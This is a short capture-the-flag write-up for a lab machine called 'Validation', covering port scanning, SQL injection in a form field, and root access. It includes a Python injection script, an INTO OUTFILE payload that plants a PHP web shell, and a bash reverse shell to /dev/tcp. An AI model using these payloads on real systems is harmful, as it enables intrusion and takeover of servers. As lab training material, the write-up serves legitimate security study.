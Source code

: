 # Validation Write-Up

Easy

Tags:
`SQLi`


## Intro

1. Modify post request to inject SQL to upload bash shell
2. Send request to connect reverse shell
3. Read config.php to get global password
4. Switch user as root

## Enumeration

### Port scanning

```
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
```

## Exploit

```
Cookie: user=098f6bcd4621d373cade4e832627b4f6
username=test&country=Brazil
```

SQL injectin in country parameter


```py
import random
import requests
from bs4 import BeautifulSoup
from cmd import Cmd


class Term(Cmd):

	prompt = "> "

	def default(self, args):
		name = f'{random.randrange(1000000,9999999)}'
		res = requests.post(
			'http://<target-id>',
			headers={
				"Content-Type": 'application/x-www-form-urlencoded'
			},
			data={
				"username": name,
				"country": f"' union {args};-- -"
			}
		)
		soup = BeautifulSoup(res.text, 'html.parser')
		if soup.li:
			print('\n'.join([x.text for x in soup.findAll('li')]))
	
	def do_quit(self, args):
		return 1

term = Term()
term.cmdloop()
```

```
country' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```

send request to execute command

```
http://<target-id>/shell.php?cmd=<command>
```

use bash shell

```bash
bash+-c+'bash+-i+>%26+/dev/tcp/<local-ip>/<port>+0>%261'
```

nc listener

switch use

```
su -
```

global pw in config.php

## Reference

https://0xdf.gitlab.io/2021/09/14/htb-validation.html